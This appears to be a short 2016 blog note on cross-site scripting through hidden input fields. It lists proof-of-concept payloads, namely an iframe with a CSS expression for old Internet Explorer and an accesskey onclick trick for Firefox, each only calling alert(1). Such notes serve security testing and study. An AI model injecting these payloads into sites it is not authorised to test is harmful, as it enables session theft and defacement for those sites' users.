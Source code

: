```yaml
---
title: Bypass input hidden XSS
date: 2016-05-31 15:20:41
tags: XSS
---
```


> example

```
<input type="hidden" name="redacted" value="default" injection="xss" />
```
<!--more-->
### Iframe
> Test in IE6-9

> 1.html

```
<iframe src=two.html>
```
> 2.html

```
<input type=hidden style=x:expression(alert(1))>
```
### firefox Onclick
> Only works on Firefox. ALT+SHIFT+X on Windows/Linux, CTRL+ALT+X osx.

```
<input type="hidden" accesskey="X" onclick="alert(1)">
```